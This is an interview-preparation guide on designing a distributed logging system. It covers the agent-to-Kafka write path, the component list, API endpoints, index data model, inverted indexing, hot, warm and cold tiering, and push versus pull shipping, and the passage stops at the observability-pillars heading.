# Distributed Logging — FAANG System Design Interview Guide

> **Enhancement notes:** this pass added material an interviewer expects but the original draft only implied. New content is marked **🆕** at the subsection level so you can spot it at a glance; everything unmarked is the original guide, untouched.
> - 🆕 An **architecture evolution** (v1 direct-to-DB → v2 agent + Kafka → v3 tiered + indexed + backpressure-aware) so you can narrate *why* each piece exists, not just draw the final box diagram.
> - 🆕 **API design** and a **data model / index-document** subsection — both were gaps; a FAANG interviewer will ask "what does the write call look like?" and "what's in an index document?"
> - 🆕 An **indexing deep dive** (inverted index + time-based index partitioning) and a **tier-migration decision flowchart**, plus a **hot vs. warm vs. cold comparison table** for fast recall.
> - 🆕 A **query-path sequence diagram** (search → hot index → warm → "restore from cold" fallback) to pair with the existing write-path diagram.
> - Light clarity edits to a few dense sentences throughout (not individually flagged — the content is unchanged, just easier to read on a first pass).
> - Everything else — the mental model, playbook, capacity math, failure modes, real-world examples, golden rules, and cheat sheets — is the original guide, left as-is because it already covered the ground well.

> Building-block chapter. Logging is infrastructure every other system leans on — treat it like you'd treat a message queue or a cache: a reusable component you design once and reference everywhere else.

---

## 1. Mental Model

Think of distributed logging as **a black-box flight recorder for a fleet of airplanes, wired into one shared control tower.**

- Every plane (server/microservice) keeps its own black box (local log file) recording everything that happens.
- You can't fly to every plane after a crash to pull the box — you need a way to **stream telemetry to the ground continuously** (log shipping), **store it durably** (blob storage), **index it** so investigators can search "show me every event from flight 42 between 3:00–3:05" (log indexer + search), and **flag anomalies live** (alerting) instead of waiting for the post-mortem.
- The tower doesn't care about *most* of the telemetry most of the time — but the one time it does (an incident), it needs it *fast*, *complete*, and *trustworthy*. That tension — "99.99% of logs are never read, but the 0.01% that matter must never be lost or slow" — is the whole design problem.

One-line framing to say out loud in an interview:
> "Distributed logging is an **async, durable, searchable pipe** from 'event happened somewhere in the fleet' to 'human or alerting system can query it,' without ever sitting on the request's critical path."

### Cheat-sheet
- Logging = flight recorder + control tower, not a debugger you attach live.
- Core tension: write path must be near-free (async, low latency); read path must be fast to search under pressure (incident).
- It's a **building block** — reuse Pub-Sub, Blob Store, and Distributed Search chapters; don't reinvent them.
- Say this framing sentence early to show you understand the shape of the problem before drawing boxes.

---

## 2. Interview Playbook



### Cheat-sheet
- Always clarify functional vs non-functional requirements before drawing boxes — interviewers reward this explicitly in this chapter's source material.
- Say "I'll reuse Pub-Sub, Blob Store, and Distributed Search as building blocks" immediately — signals seniority.
- Never let logging appear on the request's critical path in your diagram — call it out loud.
- Do capacity math before being asked; it's expected, not a bonus.
- End with failure modes and trade-offs — that's where senior candidates separate from mid-level ones.

---

## 3. What It Is

A **distributed logging system** is the infrastructure that collects, transports, stores, indexes, and serves log events generated by every process in a distributed system, so humans and automated tools can reconstruct **what happened, where, and in what order** — across thousands of machines and services — without SSH-ing into every box.

**Functional requirements (from source, extended):**
| Requirement | Meaning |
|---|---|
| Writing logs | Any service on any node can emit a log line cheaply |
| Searchable logs | Find logs by keyword, service, time range, trace ID — "grep across the fleet" |
| Storing logs | Durable, distributed storage — not tied to a single node's disk |
| Centralized visualizer | One dashboard across all services/regions, not per-node consoles |
| (Added) Alerting | Live rules over the log stream trigger pages before a human searches |
| (Added) Retention tiering | Hot (searchable) → warm → cold (archive) → delete, on a schedule |

**Non-functional requirements:**
| Requirement | Why it's non-negotiable |
|---|---|
| Low write latency | Logging must never slow down the actual request (I/O-heavy op) |
| High availability | A logging outage shouldn't cause an application outage |
| Scalability | Must absorb log volume growth linearly with fleet growth |
| Durability (bounded) | Some loss is tolerable (unlike a database); zero loss is not the design goal |

### Cheat-sheet
- Logging ≠ a database requirement: it explicitly tolerates *some* data loss for lower latency — say this trade-off out loud.
- Four functional pillars: write, search, store, visualize. Memorize them as your requirements-gathering checklist.
- The "don't sit on the critical path" non-functional requirement is the single most important sentence to say in this interview.
- Retention tiering (hot/warm/cold) is expected even though the source material doesn't name it that way explicitly — it calls it "expiration checker" + "cold storage."

---

## 4. Why It Exists

**Why not just `print()` / write to a local file?**

| Problem with print/local files | What logging solves |
|---|---|
| No severity — can't separate noise from signal | Structured log levels (DEBUG…FATAL) |
| Output goes to a terminal/local disk, not durable or remote | Ships to durable, centralized distributed storage |
| No causality across nodes — service A's print and service B's print don't correlate | Unique IDs (`app-id + service-id + timestamp`) stitch a request across hops |
| Can't search millions of lines across thousands of hosts | Centralized index + distributed search |
| No structure → hard to parse/query/alert on programmatically | Structured (JSON/key-value) log formats |

**Business reasons to invest in this building block:**
1. **MTTR reduction** — logging is the primary tool to find root cause of an outage or breach, and directly lowers Mean Time To Repair.
2. **Security/compliance** — audit trails for breaches, SOC2/PCI/HIPAA compliance, regulatory retention requirements.
3. **Debugging distributed flows** — in microservices, one user action can fan out across hundreds of services; without correlated logs you cannot reconstruct the flow at all.
4. **Input to other systems** — logs feed recommender systems (user behavior), anomaly detection, and monitoring/alerting pipelines.

### Cheat-sheet
- Lead with "print statements don't scale because they lack severity, durability, and causality" — this is the textbook opening line.
- Tie logging directly to MTTR — interviewers like a named metric, not just "helps debugging."
- Mention security/compliance (PCI, HIPAA, SOC2) unprompted — shows you think beyond happy-path engineering.
- Logs are also a *data source*, not just a debug tool — mention recommender systems/analytics as a bonus.

---

## 5. How It Works Internally

### 🆕 5.1 Architecture evolution (v1 → v2 → v3)

Interviewers reward candidates who show *why* each box exists, not just candidates who can draw the final diagram from memory. Narrating the evolution below in the first few minutes does that.

**v1 — naive, direct-to-DB (the thing you must NOT propose):**


*Breaks at any real scale:* every request now waits on a database write; one slow disk fsync on the log table slows every user-facing request; the DB has to serve both app traffic and log traffic; there's no search, no retention policy, nothing durable beyond "however long the DB keeps rows."

**v2 — local agent + central Kafka (removes the critical-path problem):**


*What it fixes:* the app thread never waits on I/O; Kafka absorbs bursts and decouples slow consumers from producers. *What's still missing:* every log line lives in one expensive, fully-indexed store forever — no tiering, no explicit indexing service, and no plan for what happens if Kafka backs up faster than agents can drain (backpressure).

**v3 — tiered, indexed, backpressure-aware (production grade — this is the rest of this guide):**


*What it adds on top of v2:* explicit hot/warm/cold tiering (cost control), a dedicated indexing service (query speed), and backpressure-aware sampling at the agent (survives a slow or down Kafka without an outage). Sections 5.2 onward describe this version in detail.

| Version | What it solves | What's still broken / missing | Fixed by |
|---|---|---|---|
| v1: direct-to-DB | Nothing — it's the naive starting point | Logging blocks the request; DB can't take fleet-wide write volume; no search, no retention | v2: local agent + async buffering + durable queue |
| v2: agent + Kafka, one hot store | Removes logging from the critical path; Kafka absorbs bursts | Storage cost grows unbounded (everything stays "hot" forever); no answer for sustained backpressure; one noisy tenant can swamp the shared index | v3: tiering, indexing service, priority-based shedding |
| v3: tiered + indexed + backpressure-aware | Cost-controlled retention, fast search, survives ingestion spikes | This is the target architecture — see sections 5.2–5.9 and 6 for the details | — |

### 5.2 End-to-end architecture



**Component responsibilities (source-derived, this is the canonical component list — memorize it):**

| Component | Job |
|---|---|
| **Log accumulator** | Per-node agent: receive logs from local services, buffer locally, push to pub-sub asynchronously |
| **Pub-Sub cluster** | Absorb bursty, high-volume writes; decouple producers from slow consumers; horizontally scalable |
| **Filterer** | Reads pub-sub stream, routes each log to the correct per-application blob storage bucket (don't mix tenants) |
| **Error aggregator** | Picks error-level events off the stream, proactively notifies the owning team — skips the "search logs after the fact" step |
| **Alert aggregator** | Detects fatal/critical patterns, pages on-call or feeds a monitoring tool |
| **Blob storage** | Durable long-term store for raw logs, partitioned per application |
| **Log indexer** | Builds searchable index (inverted index) over blob-stored logs |
| **Visualizer** | Unified UI (Kibana/Grafana-style) across all services/regions |
| **Expiration checker** | Decides what ages out to cold storage vs hard-deletes |

### 5.3 Write path (sequence)



Key point to say out loud: the application thread **never blocks on network or disk I/O for logging** — it hands off to a local buffer and a low-priority async thread does the shipping. This is the single most-tested detail in this chapter.

### 5.4 Redundant accumulators / failover



### 5.5 Log lifecycle (state machine)



### 🆕 5.6 API design

A FAANG interviewer will often ask "what does the write call actually look like?" — have a concrete answer, not just a box labeled "accumulator."

| Endpoint | Method | Called by | Purpose | Notes |
|---|---|---|---|---|
| `/v1/logs:batch` | POST | Local agent → ingestion service | Ship a batch of buffered log lines | Always batched — never one log line per call. A batch is typically 100s–1000s of lines, sent every 1–5s or when the buffer hits a size threshold, whichever comes first |
| `/v1/search` | GET | Visualizer / CLI | Query logs by service, level, time range, free text, `trace_id` | Hits the hot index by default; params: `service`, `level`, `from`, `to`, `q`, `trace_id`, `limit` |
| `/v1/restore` | POST | Visualizer / on-call tooling | Ask for a cold-tier object to be pulled back into a searchable form | **Async** — returns a `job_id` immediately; actual restore can take minutes to hours (Glacier-style retrieval), not seconds |
| `/v1/traces/{trace_id}` | GET | Visualizer | Convenience wrapper: fetch every log line across every service for one trace, already ordered causally | Internally just `/v1/search?trace_id=...` sorted by span order, not wall-clock time |
| `/v1/alerts/rules` | POST / GET / DELETE | On-call engineer / IaC pipeline | CRUD for alerting rules (see 6.14) | e.g. `{"expr": "rate(level=ERROR, service=checkout)[5m] > 50", "for": "2m"}` |
| `/v1/tenants/{id}/quota` | GET / PUT | Platform team | Read or set a tenant's ingestion rate limit | Enforced at the agent and the filterer — this is the noisy-neighbor lever from 6.10 |

Example batch-ingest call (what the agent actually sends):
```json
POST /v1/logs:batch
{
  "host": "ip-10-0-4-12",
  "service": "checkout-service",
  "batch_id": "b-7f3c2a91",
  "events": [
    {"ts": "2026-07-18T10:22:31.482Z", "level": "ERROR", "trace_id": "7f3c2a91", "message": "payment gateway timeout", "latency_ms": 5023}
  ]
}
```

Interview line: "The write path is intentionally batch-only and fire-and-forget from the app's point of view — there is no synchronous 'write one log line' API. The app hands the line to the local agent's in-process buffer and moves on; the agent decides when and how to call `/v1/logs:batch`."

### 🆕 5.7 Data model

Two different "shapes" of the same log event matter: what gets **stored** (the raw event) and what gets **indexed** (the searchable document). Conflating them is why cardinality problems happen (6's Common Failure Modes, F4).

| Field | Stored (blob) | Indexed (search doc) | Why |
|---|---|---|---|
| `timestamp` | Yes | Yes, as a range-queryable field | Every query filters by time range first — this is the field that drives partitioning (below) |
| `service`, `host`, `level` | Yes | Yes, as low-cardinality `keyword` fields | Small, bounded set of values — cheap to index, used to narrow a search fast |
| `trace_id`, `span_id` | Yes | Yes, as `keyword` | Exact-match lookups only — never full-text analyzed |
| `message` | Yes | Yes, full-text analyzed (tokenized) | This is the expensive part of the index — the inverted index (5.8) is built from this field |
| `user_id_hash` | Yes | Yes, as `keyword` | Needed to join logs for one user without indexing raw PII (6.9) |
| Arbitrary extra fields (payload, stack trace, request body) | Yes | Usually **not** indexed, or indexed only as a truncated prefix | Indexing every free-form field is exactly how cardinality explosions happen — stored-only fields stay searchable indirectly via `trace_id` |

Partitioning key: logs are stored and indexed **one index per service per day**, e.g. index name `logs-checkout-service-2026.07.18`. This is the same "time-based partitioning" idea as sharding a database by date — see 5.8 for why it matters for both query speed and tier migration.

### 🆕 5.8 Indexing deep dive: inverted index + time-based partitioning

**Inverted index, in one sentence:** instead of storing "document 42 contains these words," you store "the word 'timeout' appears in documents 12, 42, 981, …" — a map from *term* to *list of matching log lines*. A search for `"timeout" AND service=checkout` becomes an intersection of two short posting lists instead of a scan of every log line ever written.

```text
Term            → Posting list (doc IDs)
"timeout"       → [42, 981, 1204, ...]
"checkout"      → [12, 42, 55, 981, ...]
service=checkout → [12, 42, 55, ...]

Query: "timeout" AND service=checkout → intersect([42,981,1204,...], [12,42,55,...]) = [42, ...]
```

**Why time-based partitioning (index-per-day-per-service) matters — two separate payoffs:**
1. **Query speed:** almost every log query has a time range (`last 15m`, `last 24h`). If today's logs live in a different index from last month's, the query engine never even opens last month's index — it prunes whole indices instead of scanning filtered rows out of one giant one.
2. **Cheap tier migration:** moving "everything older than 14 days" from hot to warm becomes *delete/relocate a handful of whole indices*, not a row-by-row delete matching a date filter. This is exactly how Elasticsearch ILM (Index Lifecycle Management) and Loki's chunk-based storage both work under the hood.

#### 🆕 Tier-migration decision flowchart



#### 🆕 Hot vs. warm vs. cold storage

| | Hot | Warm | Cold |
|---|---|---|---|
| Retention window (illustrative) | ~14 days | ~15–90 days | ~90–365+ days |
| Backing store | ES hot nodes, SSD | ES warm nodes or S3 Standard-IA | S3 Glacier / Deep Archive |
| Searchable how | Full-text, sub-second | Full-text, slower (fewer replicas, force-merged) | Not searchable in place — must restore first |
| Relative size vs. raw compressed | ~1× (plus replication + index overhead) | ~1× data, less compute around it | ~10% or less after re-compression, no replica overkill |
| Cost per GB (relative) | Highest | Mid | Lowest (10-20x cheaper than hot) |
| Typical query latency | Milliseconds–seconds | Seconds | Minutes–hours (restore job) |
| When you'd read from it | Active incident, live debugging | "What happened last week" | Audit, compliance, rare forensic digs |

Mnemonic: *"Hot is for firefighting, warm is for last week, cold is for lawyers."*

### 🆕 5.9 Query path (sequence diagram)



Interview line: "The search API doesn't need to know which tier a log lives in — it fans a query out across whatever tiers overlap the requested time range, and if part of the range is cold, it kicks off an async restore instead of failing the whole query."

### Cheat-sheet
- Draw producer → accumulator → pub-sub → fan-out consumers → blob → index → visualizer, in that order, every time.
- Name all 9 components from memory: accumulator, pub-sub, filterer, error aggregator, alert aggregator, blob storage, indexer, visualizer, expiration checker.
- State explicitly: async write, low-priority thread, no blocking I/O on the app's critical path.
- Mention accumulator redundancy as the fix for "single point of loss" before the interviewer asks.
- The lifecycle has an explicit **Lost** state — acknowledging this shows you understand logging's availability-over-durability trade-off.
- Narrate the v1 → v2 → v3 evolution if asked "how would you design this from scratch?" — it shows you understand *why* each component exists, not just what it's called.
- Have one concrete write API call and one search API call ready — "batch POST from the agent, GET with time-range + service + level filters" is enough.
- Time-based index partitioning (one index per service per day) is what makes both fast range queries *and* cheap tier migration possible — say this connection out loud, it's the kind of detail that separates senior candidates.

---

## 6. Types / Variants

### 6.1 Push vs. pull log shipping



| | Push | Pull |
|---|---|---|
| Who initiates | Agent/producer | Central collector |
| Backpressure handling | Harder — producer can overwhelm collector | Easier — collector controls its own rate |
| Discovery | Producer needs collector address | Collector needs service discovery of producers |
| Typical use | Log shipping (Filebeat, Fluentd, syslog, Logstash forwarders) | Metrics scraping (Prometheus); rarely used for logs |
| Failure mode | Producer buffers/retries if collector down | Collector just skips a scrape cycle |

**Interview answer:** Logging is push-dominant in practice (Filebeat/Fluentd tail files and ship), because logs are unbounded event streams, not periodic gauges — pull fits metrics (fixed-cardinality snapshots) far better than logs.

### 6.2 Synchronous vs. asynchronous flush



| | Sync flush | Async flush |
|---|---|---|
| Latency impact on request | High — adds disk/network I/O to critical path | Near-zero |
| Durability | Strong — log guaranteed persisted before ack | Weak — window of loss on crash |
| Use case | Audit/compliance logs, financial transaction logs | Everything else (debug/info/app logs) |
| This chapter's recommendation | Avoid | **Default choice** — explicitly recommended in source material |

### 6.3 Log aggregation vs. log analysis

| | Log aggregation | Log analysis |
|---|---|---|
| What it does | Collect + centralize + store logs from many sources | Query, correlate, visualize, alert on aggregated logs |
| Example tools | Fluentd, Logstash, Kafka, Flume | Elasticsearch+Kibana, Splunk SPL, Grafana Loki+LogQL |
| Analogy | Mail collection & sorting | Reading the mail and drawing conclusions |
| Failure if missing | No central place to even look | You have the haystack but no way to find the needle |

### 6.4 Logging vs. Metrics vs. Tracing (the three pillars of observability)

